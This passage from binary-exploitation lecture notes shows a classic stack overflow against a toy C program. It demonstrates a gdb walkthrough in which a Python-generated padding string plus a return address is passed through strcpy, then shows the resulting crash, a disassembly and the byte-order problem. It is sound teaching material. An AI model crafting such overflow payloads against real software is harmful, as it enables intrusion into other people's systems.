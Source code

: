 The address of the start of the function is 0x080484c1 so we need to
write those bytes to the return address. Let's give it a shot:

``` {.example}
(gdb) run 66 `python -c "print 'A'*48+'\x08\x04\x84\xc1'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\x080484c1'"`

Program received signal SIGSEGV, Segmentation fault.
0x38343008 in ?? ()
```

That didn't work, but we did crash the program. Let's see if we can
figure out what happened:

``` {.example}
(gdb) run 66 `python -c "print 'A'*48+'\x08\x04\x84\xc1'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\x08\x04\x84\xc1'"`

Breakpoint 8, vuln (n=0, str=0xbffff869 'A' <repeats 48 times>, "\b\004\204\301") at vulnerable.c:21
21   while( i < n ){
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>: mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>: lea    eax,[ebp-0x2c]
   0x080484ec <+23>: mov    DWORD PTR [esp],eax
   0x080484ef <+26>: call   0x8048360 <strcpy@plt>
=> 0x080484f4 <+31>: jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>: mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>: lea    edx,[eax+0x1]
   0x080484fc <+39>: mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>: lea    edx,[ebp-0x2c]
   0x08048502 <+45>: mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>: mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>: mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>: call   0x8048350 <printf@plt>
   0x08048516 <+65>: mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>: cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>: jl     0x80484f6 <vuln+33>
   0x0804851e <+73>: leave  
   0x0804851f <+74>: ret    
End of assembler dump.
(gdb) x/x $ebp+0x4
0xbffff63c: 0xc1840408
```
